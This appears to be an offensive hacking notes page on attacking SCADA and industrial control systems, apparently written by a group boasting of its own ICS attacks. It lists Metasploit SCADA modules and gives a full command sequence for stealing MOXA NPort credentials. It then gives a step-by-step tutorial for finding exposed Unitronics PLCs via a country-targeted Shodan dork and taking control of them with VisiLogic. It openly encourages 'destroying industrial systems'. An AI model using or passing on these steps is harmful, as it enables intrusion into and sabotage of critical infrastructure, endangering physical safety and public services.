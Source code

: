 # SCADA

## 01 - Metasploit

TODO: Go through each and every MSF module related to SCADA/ICS

```
auxiliary/analyze/modbus_zip

auxiliary/scanner/scada/modbus_banner_grabbing

auxiliary/scanner/scada/modbusclient

auxiliary/scanner/scada/modbus_findunitid

auxiliary/scanner/scada/modbusdetect

auxiliary/scanner/scada/pcomclient

auxiliary/admin/scada/modicon_stux_transfer

auxiliary/admin/scada/modicon_command
```

- Gather MOXA NPort credentials when authentication is on.

```
msf > use auxiliary/admin/scada/moxa_credentials_recovery

msf auxiliary(admin/scada/moxa_credentials_recovery) > options

msf auxiliary(admin/scada/moxa_credentials_recovery) > set function creds

msf auxiliary(admin/scada/moxa_credentials_recovery) > set rport 4800

msf auxiliary(admin/scada/moxa_credentials_recovery) > set rhosts <target_IP>

msf auxiliary(admin/scada/moxa_credentials_recovery) > run
```

## Unitronic PLCs

Unitronics devices, some of our recent ICS attacks had a new approach that shocked a few people and we got some questions on it was the targets where we showed off the HMI's for them.

Those are Unitronics Device this writeup will be a tutorial on how you can also access and breach these devices

Lets start with finding these devices there are 2 ways:

1. The typical shodan way, one dork you can use to find it (country:"ru" unitronics) or you can gather a bunch of CIDR and make a access control list using this https://www.countryipblocks.net/acl.php then scan the ranges for port 20256

Once thats done let's install the required program to remotely connect to the unitronics devices https://www.unitronicsplc.com/software-visilogic-for-programmable-controllers/

Now how to connect? You open visilogic and head to the connection tab and then press the last option (communication and os) from there set the connection type to TCP call and configure the project settings 

Now you see this scary panel? well don't be scared. For IP address that's self explanatory which is the target. The port is whatever the targets port is. Now for the PLC name. THIS STEP IS NECESSARY!

Be it shodan or your scans you will usually have the PLC name INSERT THAT THE EXACT WAY ITS WRITTEN IN YOUR RESULTS

After that press okay and once back on the communication and OS page, press get OPLC information if you see the information loaded its safe to close the tab out now go back to connection and press online test or simply press F9 on your keyboard.

Once that's done you can press the (play button) and you officially accessed the unitronics PLC

From here we do recommend research on using this software and how to properly achieve what you want and destroying industrial systems (Via videos or the same download link from above check out the manual, etc etc)

HACK THE PLANET!!

ANY QUESTIONS DROP THEM IN THE CHAT

---
## References

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/A - Information Gathering/0x01 - Passive Fingerprinting/0xB - Security Search Engines/Shodan/Use Cases/IoTs/Modbus/SCADA (ICS)|Shodan: SCADA]]